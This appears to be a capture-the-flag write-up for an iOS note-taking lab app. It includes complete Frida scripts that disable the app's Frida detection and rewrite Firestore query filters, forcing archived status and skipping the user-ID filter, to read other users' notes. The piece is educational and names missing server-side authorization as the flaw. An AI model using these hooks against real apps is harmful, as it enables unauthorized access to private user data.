







## Initial Check

So I had my head scratching for a day solving this challenge. It was a basic application, when opened in a jailbroken device with frida installed, it showed the alert `Frida FrameWork Detected`. 
So I started my analysis trying to bypass the initial check, which was not that hard.

First I searched for strings containing `Frida framework detected`:



Then I checked for cross references for that string:



Found the function that used the string `sym.func.100006074`


Did not pay much attention to it's working, quickly wrote the frida script to hook that function and replace it with an empty one.

```js
var moduleName = "notelyai";

var r2_addr = ptr("0x100006074");

var r2_image_base = ptr("0x100000000");

var offset = r2_addr.sub(r2_image_base);

  

var moduleBase = Module.getBaseAddress(moduleName);

if (!moduleBase) throw "Module not loaded: " + moduleName;

var targetAddress = moduleBase.add(offset);

  

console.log("[+] moduleBase: " + moduleBase);

console.log("[+] r2_addr: " + r2_addr);

console.log("[+] offset: " + offset);

console.log("[+] targetAddress (moduleBase + offset): " + targetAddress);

  
var noop = new NativeCallback(function (p0){

  

}, 'void',['pointer']);

  

Interceptor.replace(targetAddress, noop);

console.log('[+] Replaced', targetAddress, 'with noop (void(pointer))');
```


And we successfully bypassed the initial check(s)!!

# Main Working

Now as swiftly I bypassed the initial check, getting the flag wasn't that easy ( at least for me lol ).
So it was a note taking application. 
It had:
- few notes already stored
- allowed us to add new notes
- had the option of AI Summarization for each note
- Also a section of **archived notes** which apparently can be read only if you have **Administrator Privileges**

So, as normal ctf player would do, I started to bypass admin checks.

Started by finding the functions which could be responsible for admin access:

Bravo, seems like an easy bypass, just null the function out and return True! 

**But** i tried for hours, I couldn't do it that way I don't know why, I wrote many scripts, tried different techniques.

This was the decompiled code:
```swift
uint32_t method.notelyai.AuthService.checkAdminAccess(ulong param_1)

{
    uint32_t uVar1;
    ulong uVar2;
    ulong uVar3;
    ulong uVar4;
    int64_t iStack_40;
    int64_t iStack_38;

    uVar2 = sym.imp.swift_getKeyPath(0x100775f68);
    uVar3 = sym.imp.swift_getKeyPath(0x100775f90);
    uVar4 = sym.imp.swift_retain(param_1);
    sym.imp.Combine.Published._enclosingInstance.wrapped.storage.ReferenceWritableKeyPath....xGAHyqd__ACyxGGtcRld__CluigZ
              (&iStack_40,uVar4,uVar2,uVar3);
    sym.imp.swift_release(uVar2);
    sym.imp.swift_release(uVar3);
    if (iStack_40 == 0x6e696d6461 && iStack_38 == -0x1b00000000000000) {
        sym.imp.swift_release(param_1);
        sym.imp.swift_bridgeObjectRelease(iStack_38);
        uVar1 = 1;
    }
    else {
        uVar1 = sym.imp._stringCompareWithSmolCheck...._9expectingSbs11_StringGutsV_ADs01_G16ComparisonResultOtF
                          (iStack_40,iStack_38,0x6e696d6461,0xe500000000000000,0);
        sym.imp.swift_release(param_1);
        sym.imp.swift_bridgeObjectRelease(iStack_38);
    }
    return uVar1 & 1;
}
```

It was a simple function,
- Reads two Swift key‑paths from the binary and uses them to extract a string/value from the `param_1` object into `iStack_40`/`iStack_38`.
- Checks whether that extracted value equals the hardcoded admin literal (fast path: the `if` with the two constants); if not, calls a string‑compare helper to compare the extracted value to the same admin literal.
- Returns `1` (true) when the extracted value matches the admin literal, otherwise `0` (false) — i.e., it determines whether `param_1` indicates an admin.

But the problem was, I COULDN'T MANAGE TO HOOK IT. If you are reading this writeup and you managed to hook it and change it's values, please message me and tell me how.

So after many tries, I started looking for the challenge's writeups. I only found one of **Lautaro D. Villarreal Culic**.
https://lautarovculic.github.io/writeups/Mobile%20Hacking%20Lab%20-%20Notely%20AI

Upon reading this I found, the initial check can also be bypassed by changing the port and name of frida's binary!

So Lautaro found the flag by hooking **firestore queries**, which were responsible for fetching the notes, which I clearly overlooked.

## Use of Firestore

Upon deeper analysis I found that the binary is using Firestore to store and fetch notes. So it must be using some sort of Query Builder for this purpose. So to get the flag, we messed with the query builder.
#### what allowed us to mess with the query?
because the app did _all_ access control client‑side and the backend (Firestore rules) trusted whatever query the client sent. That made the app vulnerable to **runtime client tampering** (via Frida) and the root flaw is **missing/incorrect server‑side authorization** (OWASP: Broken Access Control / Insecure Direct Object Reference).

## Firestore on iOS

On iOS the Firebase Firestore client is exposed as Objective‑C classes (even when app is written in Swift). Frida can hook ObjC methods (IMPs) to observe or change queries, snapshots, and writes.

The firestore documentation shows how are queries made in Objective C:
`FIRQuery *query = [citiesRef queryWhereField:@"state" isEqualTo:@"CA"];`

So I did what Lautaro did, hooked the query builder. I found two fields:
1. **isarchived**
2. userid



So we need to just replace the function with our implementation, look for calls of these fields and:
- make `isarchived` True.
- skip the `userid` check so we get notes of all users ( including admin).

## Final Script
```js
var moduleName = "notelyai";

var r2_addr = ptr("0x100006074");

var r2_image_base = ptr("0x100000000");

var offset = r2_addr.sub(r2_image_base);

  

var moduleBase = Module.getBaseAddress(moduleName);

if (!moduleBase) throw "Module not loaded: " + moduleName;

  

var targetAddress = moduleBase.add(offset);

  

console.log("[+] moduleBase: " + moduleBase);

console.log("[+] r2_addr: " + r2_addr);

console.log("[+] offset: " + offset);

console.log("[+] targetAddress (moduleBase + offset): " + targetAddress);

  
  

var noop = new NativeCallback(function (p0){

  

}, 'void',['pointer']);

  

Interceptor.replace(targetAddress, noop);

console.log('[+] Replaced', targetAddress, 'with noop (void(pointer))');

  

var Q = ObjC.classes.FIRQuery;

if (Q){

console.log("[+] FIRQuery found!");

}

  

var sel = '- queryWhereField:isEqualTo:';

  

if (Q[sel]){

console.log("[+] FIRQuery exposes ",sel);

}

  

const imp = Q['- queryWhereField:isEqualTo:'].implementation;

const orig = new NativeFunction(imp, 'pointer', ['pointer','pointer','pointer','pointer']);

  

Interceptor.replace(imp, new NativeCallback(function(self, _cmd, fieldPtr, valPtr) {

try {

const field = ObjC.Object(fieldPtr).toString().toLowerCase();

console.log("[+] Field: ",field)

//Force archived to TRUE

if (field === 'isarchived' || field === 'archived' || field === 'is_archived') {

const forced = ObjC.classes.NSNumber.numberWithBool_(1);

console.log('[+] Forced isArchived => TRUE');

return orig(self, _cmd, fieldPtr, forced);

}

// Skip user-scoping filters

if (field === 'userid' || field === 'ownerid' || field === 'uid') {

console.log('[+] Skipping user-id filter (returning self)');

return self;

}

} catch (e) {

}

return orig(self, _cmd, fieldPtr, valPtr);

}, 'pointer', ['pointer','pointer','pointer','pointer']));

  

console.log('[+] Installed');
```

In working


It was a very interesting challenge, I certainly learned a lot. Let me know if anyone solved this with different approach!

`Flag: MHC{4rch1v3d_n0t3s_4r3_n0t_s3cur3!}`